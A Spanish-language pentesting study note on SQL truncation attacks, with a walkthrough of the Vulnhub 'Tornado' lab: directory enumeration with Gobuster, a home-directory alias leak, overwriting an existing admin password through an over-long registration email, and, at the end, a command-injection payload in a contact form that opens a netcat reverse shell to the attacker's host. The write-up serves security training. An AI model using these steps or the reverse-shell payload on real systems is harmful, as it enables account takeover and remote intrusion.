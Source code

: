 # Ataque de Truncado SQL (SQL Truncation)

Tags: #SQLTrunk #OWASP #Explotacion 

El ataque de **truncado SQL**, también conocido como **SQL Truncation**, es una técnica de ataque en la que un atacante intenta **truncar** o **cortar** una consulta SQL para realizar acciones maliciosas en una **base de datos**.

Un ejemplo común de este tipo de ataque es cuando una aplicación web tiene un campo de entrada que limita la longitud de los datos, como el correo electrónico, y no valida adecuadamente los datos de entrada.

Supongamos por ejemplo una página la cual dispone de un campo de registro para crear un nuevo usuario. En este campo de registro, el usuario debe proporcionar una dirección de correo y la contraseña del usuario en cuestión que desea crear. Ahora bien, de cara a la inserción de estos datos en la base de datos, supongamos que el campo correspondiente a la dirección email que introduce el usuario, está limitado a **17 caracteres** en la base de datos.

Suponiendo que por ejemplo el usuario ‘**admin@admin.com**‘ ya existe en la base de datos, de primeras no sería posible registrar este mismo usuario, debido a que la query SQL que se aplicaría por detrás lo consideraría como una entrada duplicada. Sin embargo, dado que el correo ‘**admin@admin.com**‘ tiene un total de **15 caracteres** y todavía no hemos llegado al límite, un atacante lo que podría intentar hacer es registrar al usuario ‘**admin@admin.com  a**‘, o de otra forma para que lo veáis mejor: ‘**admin@admin.com[espacio][espacio]a**‘.

Esta nueva cadena que hemos representado para el correo electrónico, en este caso tiene un total de **18 caracteres**. De primeras el correo es distinto al correo ya existente en la base de datos (admin@admin.com), sin embargo, debido a su limitación en **17 caracteres**, tras pasar el primer filtro y proceder a su inserción en la base de datos, la longitud total de la cadena se acota a los 17 caracteres, resultando en la cadena ‘**admin@admin.com**  ‘, o dicho de otra forma: ‘**admin@admin.com[espacio][espacio]**‘.

Ahora bien, ¿qué pasa con los espacios?, pues dado que no representan “información de valor”, por decirlo de alguna forma, lo que sucederá es que se **truncarán**. A lo que nos referimos con esto del **truncado de los espacios** al final de la cadena, es a la eliminación automática de los mismos. De esta forma, la cadena resultante final se quedaría en ‘**admin@admin.com**‘, consiguiendo tras su inserción en la base de datos cambiar su contraseña a la especificada durante la fase de registro para nuestro supuesto “**nuevo usuario**“.

Este ataque funcionará para casos donde la aplicación web no valide adecuadamente los datos de entrada y corte o trunque la consulta SQL en lugar de mostrar un mensaje de error. En consecuencia, el atacante puede aprovechar esta debilidad para realizar acciones maliciosas en la base de datos, como modificar o eliminar datos, acceder a información confidencial o tomar el control de una cuenta de usuario.

Para prevenir el ataque de truncado SQL, es importante validar adecuadamente todos los datos de entrada de usuario que se utilizan en las consultas SQL. La validación debe incluir tanto la longitud como el formato de los datos de entrada.

A continuación, se os proporciona el enlace directo de descarga a la máquina Tornado de Vulnhub, la cual desplegamos en esta clase para explotar el ataque de truncado SQL:

-   **Máquina Tornado de Vulnhub**: [https://www.vulnhub.com/entry/ia-tornado,639/](https://www.vulnhub.com/entry/ia-tornado,639/)


## SQL Truncation Attack

Para esta lab usaremos la maquina Tornado en donde primero debemos de descubrir rutas de directorios y lo haremos con Gobuster.

```bash
❯ gobuster dir -u http://192.168.68.115/ -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

	# dir -> Modo enumeracion directory/file
	# u -> Colocamos la url
	# t -> Lanzar peticiones en paralelo al mismo tiempo
	# w -> Ruta del diccionario

❯ gobuster dir -u http://192.168.68.115/bluesky -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```

Ahí encontraremos un dir llamado 'bluesky' en el cual enumeraremos por recursos php y ahí encontraremos un panel 'login.php, signup.php'

Podemos hacer un LFI en la pagina web en donde podemos hacer uso de **~tornado/** que es como si hiciéramos **/home/tornado/** y así ingresar a su directorio personal de usuario, esto es gracias a que en la pagina Apache tiene un **alias** configurado de esa manera. 
```bash
❯ http://192.168.68.115/~tornado/

	# tornado = Nombre de la maquina que estamos usando 
	# Encontramos un archivo llamado imp.txt en donde encontramos varios correos 
```

Para el SQL Trunk Attack 
Primero en la parte de registro nos damos cuenta que tenemos un limite de 13 caracteres para el correo. Si colocamos un correo que ya existe, la base de datos no nos dejara registrarnos. 
![](Pasted%20image%2020230522171520.png)
![](Pasted%20image%2020230522170808.png)

Primero debemos de modificar la longitud de la pagina y como ejemplo ponerle 35 en lugar de 13. 
Al momento de volver a meter el usuario que ya existe le agregamos espacios en blanco y un carácter adicional.
![](Pasted%20image%2020230522170925.png)

 Esto hará que la base de datos  trate de crear este usuario, pero como desde un inicio estaba limitado a 13 caracteres, la **base de datos** le borrara los caracteres adicionales como los espacios y la 'a' por lo que lo dejara como estaba al inicio pero con la diferencia de que lo va a '**sobre-registrar o sobre-escribir**' con la passwd nueva que nosotros le asignemos.


Una vez dentro de la pagina en la parte de **Contact** podemos colocar algunos comandos que nos pueden ayudar a entablar una ReverShell a nuestra maquina de atacante. 
![](Pasted%20image%2020230522172159.png)

Nos ponemos en escucha en nuestra maquina de atacante 
```bash 
❯ nc -nlvp 443
```

Colocamos lo siguiente en el comentario de la pagina web. 
```bash
❯ test; nc -e /bin/bash 192.168.68.114 443
```








